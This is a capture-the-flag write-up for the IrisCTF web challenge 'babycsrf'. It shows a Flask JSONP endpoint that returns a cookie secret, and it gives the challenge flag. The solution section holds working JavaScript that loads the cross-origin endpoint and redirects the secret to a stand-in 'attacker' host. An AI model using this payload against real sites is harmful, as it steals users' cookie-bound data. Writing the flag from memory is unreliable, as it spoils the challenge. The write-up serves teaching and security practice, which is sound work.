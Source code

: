 # babycsrf (Web)

This challenge was intended to help new players learn how to expose HTML solutions and use an admin bot.

## Challenge
The website is a simple Flask application that has a home `/` route and a `/api` route.
```python
from flask import Flask, request

app = Flask(__name__)

with open("home.html") as home:
    HOME_PAGE = home.read()

@app.route("/") # Homepage
def home():
    return HOME_PAGE

@app.route("/api") # JSONP api
def page():
    secret = request.cookies.get("secret", "EXAMPLEFLAG")
    return f"setMessage('irisctf{{{secret}}}');"
```

The homepage `home.html` is a static page that calls the `/api` route to return a secret from cookies.
```html
<!DOCTYPE html>
<html>
    <body>
        <h4>Welcome to my home page!</h4>
        Message of the day: <span id="message">(loading...)</span>
        <script>
window.setMessage = (m) => {
    document.getElementById("message").innerText = m;
}
window.onload = () => {
    s = document.createElement("script");
    s.src = "/api";
    document.body.appendChild(s);
}
        </script>
    </body>
</html>
```

## Solution
The intended attack is to include the api endpoint as a `<script>` tag. The `<script>` tag does not require the target page to allow the resource to be shared cross origin, unlike most method to retrieve on a different origin. In addition, the hint says the cookie is set with SameSite=None, so the admin bot will send the cookies with such a request, even if it's not while on the challenge origin!

One can copy the provided homepage to see how to load it:

```js
window.setMessage = (m) => {
    document.location = `https://attacker/?${m}`;
}
window.onload = () => {
    s = document.createElement("script");
    s.src = "https://babycsrf-web.chal.irisc.tf/api";
    document.body.appendChild(s);
}
```

Adding this JS to the solve template and sending it to the bot will return the flag.

```
irisctf{jsonp_is_never_the_answer}
```
